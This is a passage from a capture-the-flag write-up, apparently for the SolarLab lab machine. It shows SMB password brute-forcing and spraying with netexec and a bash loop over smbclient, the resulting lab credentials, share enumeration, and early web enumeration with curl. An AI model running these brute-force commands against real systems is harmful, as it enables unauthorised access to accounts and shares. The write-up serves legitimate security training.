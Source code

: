 ```bash
blake.byte
KAlexander
ClaudiaS
```

Now, with netexec, I will bruteforce each username with all that passwords to see if they are reused in smb:

```bash
❯ netexec smb 10.10.11.16 -u=users.txt -p=passwords.txt --continue-on-success
SMB         10.10.11.16     445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\alexander.knight:al;ksdhfewoiuh 
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\blake.byte:al;ksdhfewoiuh 
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\KAlexander:al;ksdhfewoiuh 
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\ClaudiaS:al;ksdhfewoiuh
```

> Note: the `--continue-on-success` flag is for netexec to not stop when a password success

They all work because the null session enabled, so I will bruteforce it manually using bash and output it into a file called `bruteforce-output.txt`:

```bash
❯ for user in $(cat users.txt); do for password in $(cat passwords.txt);do echo "\n\n[+] Trying with user $user and password $password\n";(smbclient -U "solarlab.htb/$user%$password" -L 10.10.11.16 2>/dev/null)done;done | tee bruteforce-output.txt
```

Now I will filter the lines containing `Trying with user` and sort the output to see if there is any new share folder, but is not the case:

```bash
❯ cat bruteforce-output.txt | grep -v 'Trying with user' | sort -u

	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Documents       Disk      
	IPC$            IPC       Remote IPC
	Sharename       Type      Comment
Reconnecting with SMB1 for workgroup listing.
Unable to connect with SMB1 -- no workgroup available
```

So I will look for other things.

# Web enumeration

## Port 80

Taking a look at the headers with curl I can see it redirects to solarlab.htb (as saw with nmap):

```bash
❯ curl -i http://10.10.11.16
HTTP/1.1 301 Moved Permanently
Server: nginx/1.24.0
Date: Thu, 19 Sep 2024 19:14:52 GMT
Content-Type: text/html
Content-Length: 169
Connection: keep-alive
Location: http://solarlab.htb/

<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
```